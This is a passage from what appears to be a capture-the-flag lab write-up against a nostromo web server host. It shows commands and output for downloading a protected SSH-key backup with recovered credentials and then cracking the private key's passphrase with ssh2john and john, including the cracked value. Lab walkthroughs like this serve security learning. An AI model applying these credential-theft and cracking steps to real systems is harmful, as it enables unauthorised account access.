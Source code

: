 ```console
logpid                  logs/nhttpd.pid 
 
# SETUID [RECOMMENDED] 
 
user                    www-data 
 
# BASIC AUTHENTICATION [OPTIONAL] 
 
htaccess                .htaccess 
htpasswd                /var/nostromo/conf/.htpasswd 
 
# ALIASES [OPTIONAL] 
 
/icons                  /var/nostromo/icons 
 
# HOMEDIRS [OPTIONAL] 
 
homedirs                /home 
homedirs_public         public_www
```

## then i go in /home/david/public_www and found a file with .tz extension i download it using wget with user and passaword we got earilier

```console
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
```

## i extract this file using tar

```console
tar -xvf protected-file-area/backup-ssh-identity-files.tgz
```

## i go a directory name /home/david/.ssh in this directory got a ssh private key named as id_rsa i use ssh2john for hash and then with the help of john i crack this hash.

```console
$ python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 

$ ls                                                                                                                  
authorized_keys  id_rsa  id_rsa.hash  id_rsa.pub 

$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash   
Using default input encoding: UTF-8 
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64]) 
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes 
Cost 2 (iteration count) is 1 for all loaded hashes 
Will run 8 OpenMP threads 
Note: This format may emit false positives, so it will keep trying even after 
finding a possible candidate. 
Press 'q' or Ctrl-C to abort, almost any other key for status 
hunter           (id_rsa) 
Warning: Only 2 candidates left, minimum 8 needed for performance. 
1g 0:00:00:02 DONE (2022-04-12 21:11) 0.4098g/s 5877Kp/s 5877Kc/s 5877KC/sa6_123..*7¡Vamos! 
Session completed
```
